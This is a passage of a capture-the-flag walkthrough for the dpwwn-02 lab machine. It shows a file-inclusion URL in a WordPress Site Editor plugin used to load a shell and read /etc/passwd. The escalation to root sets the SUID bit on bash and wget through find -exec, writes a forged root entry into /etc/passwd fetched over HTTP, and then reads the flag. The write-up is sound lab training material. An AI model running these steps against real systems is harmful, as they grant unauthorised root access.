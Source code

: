 http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/home/dpwwn02/dpwwn02shell.

![](https://i.imgur.com/5C3uxYv.png)

After get your meterpreter session, enter `shell` to create shell as your taste.

https://github.com/mzet-/linux-exploit-suggester

`find / -perm -u=s -type f 2>/dev/null`

![](https://i.imgur.com/Bs2cfJz.png)

`find hack -exec whoami \;`
![](https://i.imgur.com/oMWiVTC.png)

`find hack -exec chmod u+s /bin/bash \;`
`ls -l /bin/bash`
![](https://i.imgur.com/Gbzzenk.png)

`bash -p`
`id`
![](https://i.imgur.com/RztI7rO.png)

`cd /root`
`ls`
`cat dpwwn-02-FLAG.txt`
![](https://i.imgur.com/eSWf8NI.png)

```
which wget
ls -lha /usr/bin/wget
find /home -exec chmod u+s /usr/bin/wget \;
ls -lh /usr/bin/wget
```
![](https://i.imgur.com/AIf8U6B.png)

http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
`openssl passwd -1 -salt hack pass123`
`hack:$1$hack$22.CgYt2uMolqeatCk9ih/:0:0:root:/root:/bin/bash >> passwd`
After modified a new root user.
`python -m SimpleHTTPServer 8787`
![](https://i.imgur.com/4MzTHH0.png)

`cd /etc`
`wget -o passwd http://10.10.10.12:8787/passwd`
`su - hack`
`pass123`
`id`
`cd /root`
`ls`
`cat dpwwn-02-FLAG.txt`